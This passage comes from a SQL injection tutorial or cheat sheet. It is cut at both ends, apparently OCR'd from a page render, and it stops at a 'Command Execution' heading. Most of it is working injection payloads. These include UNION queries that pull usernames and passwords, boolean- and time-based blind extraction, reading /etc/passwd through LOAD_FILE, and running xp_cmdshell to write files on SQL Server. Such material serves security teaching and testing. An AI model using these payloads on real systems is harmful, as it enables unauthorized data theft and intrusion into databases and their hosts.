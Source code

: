 For Oracle:
```sql
' UNION SELECT table_name,column_name FROM all_tab_columns -- -
```

### 2. Data Extraction Using UNION Attacks

UNION attacks are powerful when you need to extract visible data:

```sql
' UNION SELECT 1,2,3 -- -  # First determine how many columns are needed
' UNION SELECT username,password,email FROM users -- -  # Then extract data
```

For this to work:
- The number of columns must match between the original query and the injected query
- The data types must be compatible

### 3. Blind SQL Injection Exploitation

When results aren't directly visible:

#### Boolean-Based Extraction

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' -- -
```

By iterating through characters and positions, you can extract data one character at a time.

#### Time-Based Extraction

```sql
' AND IF(SUBSTRING((SELECT password FROM users WHERE id=1),1,1)='a',SLEEP(3),0) -- -
```

This technique uses time delays to infer information, making it slower but effective when other methods fail.

### 4. Advanced Exploitation

#### File System Access

Some databases allow reading from or writing to the file system:

```sql
# MySQL file read
' UNION SELECT LOAD_FILE('/etc/passwd') -- -

# SQL Server file write
'; EXEC xp_cmdshell 'echo vulnerable > C:\proof.txt' -- -
```

#### Command Execution

Several database systems provide mechanisms that attackers can leverage to execute operating system commands:
